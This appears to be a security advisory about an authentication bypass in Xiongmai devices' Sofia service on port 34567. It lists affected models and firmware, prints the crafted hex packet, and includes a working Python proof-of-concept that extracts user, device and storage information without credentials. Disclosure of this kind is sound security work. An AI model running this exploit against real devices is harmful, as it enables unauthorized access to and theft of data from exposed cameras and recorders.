

# Xiongmai Devices Unauthorized Incorrect Access Control and Command Execution

## Summary

A significant security vulnerability has been identified across a range of Xiongmai hardware products. The vulnerability resides within the implementation of the Sofia service( default port: `34567`), allowing for unauthorized command execution due to incorrect access control. This vulnerability enables attackers to issue commands without proper authentication, leading to unauthorized access and potential control over device functionalities, posing a severe security risk to both the system's integrity and the confidentiality of user data, affecting over 390,000 devices on the Internet.



## **Affected Devices**

**Vendor:** Xiongmai 

**Hardware:**

- AHB7804R-MH-V2
- AHB8008T-GL
- AHB8004T-GL
- XM530_R80X30-PQ_8M
- AHB7004T-GS-V3
- AHB8032F-LME
- AHB7004T-MHV2

**SoftwareVersion:**

- V4.03.R11.4915714A.12201.142300.0000000
- V4.02.R11.A8531149.10001.131900.00000
- V4.03.R11.4912720B.11201.142300.0000004
- V4.03.R11.4912720D.11201.142300.0000004
- V5.00.R02.00030751.10010.348717.0000000
- V4.02.R11.C6380171.11201.141900.00000
- V4.03.R11.0000020X.11201.042300.0000005
- V4.02.R11.24340142.10001.131900.00000

## CWE

CWE-284 (Improper Access Control)

## **Vulnerability Details**

The vulnerability is triggered by sending a crafted packet containing an undocumented command code (**`1009`**) to the device. This packet bypasses the standard authentication mechanisms, granting the attacker unauthorized access.

- **Request Packet**: The attack vector is a packet that begins with a standardized header `ff00000000000000000000000000`, followed by the command code `f103` (little-endian hex for `1009`), and a payload that includes an indication of successful operation `{ "Ret" : 100, "SessionID" : "0x0" }`. This packet does not appear to require authentication or validation to process, leading to the vulnerability.

```
ff00000000000000000000000000f103250000007b202252657422203a203130302c202253657373696f6e494422203a202230783022207d0a
```

## PoC

The following Python script demonstrates the vulnerability exploitation process:

Notably, under normal operational conditions, accessing to commands that request sensitive information such as users information, system information, and storage information require proper authentication and authorization. However, **the discovered vulnerability circumvents these security measures, allowing an attacker to send specific command packets without any authentication.** 

```python
import socket
import socks  # PySocks
import json

HOST = 'Target_IP_Address'
PORT = 34567
print('Target: '+str(HOST)+":"+str(PORT))

# Define the commands to send in order
commands = [
    'ff00000000000000000000000000f103250000007b202252657422203a203130302c202253657373696f6e494422203a202230783022207d0aff00000000000000000000000000ac05300000007b20224e616d6522203a20224f5054696d655175657279222c202253657373696f6e494422203a202230783022207d0a',  # Initial command
    'ff00000000000000000000000000ee032e0000007b20224e616d6522203a20224b656570416c697665222c202253657373696f6e494422203a202230783022207d0a',  # KeepAlive
    'ff00000000000000000000000000c00500000000',  # Users Information
    'ff00000000000000000000000000fc032f0000007b20224e616d6522203a202253797374656d496e666f222c202253657373696f6e494422203a202230783022207d0a',  # Device Information
    'ff00000000000000000000000000fc03300000007b20224e616d6522203a202253746f72616765496e666f222c202253657373696f6e494422203a202230783022207d0a',  # Storage Information
]

def send_data(s, data):
    binary_data = bytes.fromhex(data) 
    s.sendall(binary_data)

def recv_all(s):
    s.settimeout(10.0)
    data = b''
    while True:
        try:
            part = s.recv(1024)
            data += part
            if part.endswith(b'\x0a\x00'):
                break
        except socket.timeout:
            break
    return data

def process_commands(socket, commands):
    for command in commands:
        send_data(socket, command)
        response = recv_all(socket)
        print("response\n", response)
        if b'"Ret" : 100' not in response:
            print("Not meet the expected condition, stopping...")
            break

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.settimeout(10)
    s.connect((HOST, PORT))
    process_commands(s, commands)

```

Specifically, this script illustrates how an attacker can utilize a series of commands to manipulate device settings or extract sensitive information without authorization.

[pocCheck3-en.py](pocCheck3-en.py)

## Exploitation

### Sample 1

AHB7804R-MH-V2

V4.03.R11.4915714A.12201.142300.0000000


**PCAP file:**


### Sample 2

AHB7804R-MH-V2

V4.02.R11.A8531149.10001.131900.00000


### Sample 3

AHB8008T-GL

V4.03.R11.4912720B.11201.142300.0000004


### Sample 4

AHB8004T-GL

V4.03.R11.4912720D.11201.142300.0000004


### Sample 5

AHB8004T-GL

V4.03.R11.4912720D.11201.142300.0000004


### Sample 6

XM530_R80X30-PQ_8M

V5.00.R02.00030751.10010.348717.0000000


### Sample 7

AHB7004T-GS-V3

V4.02.R11.C6380171.11201.141900.00000


### Sample 8

 AHB8032F-LME

V4.03.R11.0000020X.11201.042300.0000005


### Sample 9

AHB7004T-MHV2

V4.02.R11.24340142.10001.131900.00000 


## Impact

The exploitation of this vulnerability could allow an attacker to perform unauthorized actions on the affected device, potentially leading to information disclosure, device manipulation, or disruption of service.

## Recommendations

Investigate and patch the firmware to validate command codes against a list of authorized commands.
